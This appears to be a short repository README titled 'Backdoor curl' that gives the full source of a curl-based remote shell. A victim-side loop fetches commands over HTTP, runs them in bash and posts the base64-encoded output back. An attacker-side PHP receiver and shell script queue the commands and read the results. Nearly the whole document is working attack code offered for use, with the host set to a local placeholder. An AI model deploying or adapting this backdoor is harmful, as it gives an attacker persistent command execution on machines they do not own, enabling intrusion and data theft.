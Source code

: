 # Backdoor curl

## Victim session

### connect_back.sh
```sh
while true ; do sleep 1 ; cmd=$(curl -s 'http://127.0.0.1:3000/'|grep .) && ret=$(echo "$cmd"|bash|base64 -w0) && curl -s -X POST -d "d=$ret" "http://127.0.0.1:3000/get.php" ; done
```

## Attacker session

### get.php
```php
<?php file_put_contents("result.txt",$_POST["d"]); ?>
```

### server.sh
```sh
while true ; do printf "$ " ; printf "" > result.txt ; read cmd ; echo "$cmd" > index.html ; while true ; do grep -sq . result.txt && break ; done ; printf "" > index.html ; base64 -d result.txt ; done
```
